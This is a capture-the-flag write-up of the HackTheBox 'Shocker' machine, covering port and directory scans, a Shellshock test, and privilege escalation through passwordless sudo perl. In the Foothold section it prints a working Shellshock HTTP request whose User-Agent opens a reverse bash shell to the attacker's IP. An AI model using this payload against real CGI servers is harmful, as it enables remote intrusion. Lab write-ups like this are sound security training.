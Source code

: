 # Shocker- HackTheBox WriteUp

![info_card](/images/shocker/info_card)

## Enumeration & Information Gathering 
#### Scanning 

Nmap:
```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
```

#### Service Enumeration 

Gobuster results:

```
/.hta (Status: 403) [Size: 290]
/.hta.txt (Status: 403) [Size: 294]
/.hta.html (Status: 403) [Size: 295]
/.hta.php (Status: 403) [Size: 294]
/.hta.asp (Status: 403) [Size: 294]
/.hta.aspx (Status: 403) [Size: 295]
/.hta.jsp (Status: 403) [Size: 294]
/.htpasswd (Status: 403) [Size: 295]
/.htpasswd.aspx (Status: 403) [Size: 300]
/.htpasswd.jsp (Status: 403) [Size: 299]
/.htpasswd.txt (Status: 403) [Size: 299]
/.htpasswd.html (Status: 403) [Size: 300]
/.htpasswd.php (Status: 403) [Size: 299]
/.htpasswd.asp (Status: 403) [Size: 299]
/.htaccess (Status: 403) [Size: 295]
/.htaccess.html (Status: 403) [Size: 300]
/.htaccess.php (Status: 403) [Size: 299]
/.htaccess.asp (Status: 403) [Size: 299]
/.htaccess.aspx (Status: 403) [Size: 300]
/.htaccess.jsp (Status: 403) [Size: 299]
/.htaccess.txt (Status: 403) [Size: 299]
/cgi-bin/ (Status: 403) [Size: 294]
/cgi-bin/.html (Status: 403) [Size: 299]
/index.html (Status: 200) [Size: 137]
/index.html (Status: 200) [Size: 137]
/server-status (Status: 403) [Size: 299]
```

We notice the /cgi-bin/ directory, if the system is old we could try shell shock. 

Navigating to the home page only shows a picture:

![home](/images/shocker/home/png)


We download the page with wget and check the date was last modified and see september 2014.

![wget_home](/images/shocker/wget_home/png)


Knowing Shell shock was around that period and with the existense of the cgi-bin folder, it's definetly worth trying 


After trying shell shock for a while, I realized I was trying to execute a script in the url http://10.0.10.56/cgi-bin/ 
This is most likely is only possible if a shell script is running. 

We fuzz the url while still researching ShellShcok and quickly find **user.sh**

Navigating to user.sh simply downloads the file, mhmm wierd, however, when open it displays **uptime** from the system

![uptime_browser](/images/shocker/uptime.png)

In burp:
![uptime_burp](/imanges/shocker/uptime_burp.png)

Shellshock Test:

Trying to ping our host while running tcpdump, we are successfull!

>User-Agent: () { :; }; /bin/ping 10.10.14.90

![ping_tdump](/images/shocker/ping_tdump.png)

## Exploitation 
#### Foothold 

![foothold](/images/shocker/foothold.png)

```
PAYLOAD
>GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.90/443 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## Privilege Escalation 

We run sudo -l and see we can run /usr/bin/perl without a password. That's perfect for privesc.

So we can just execute /bin/bash with sudo and we are root

![root](/images/shocker/root.png) 

LateComerz


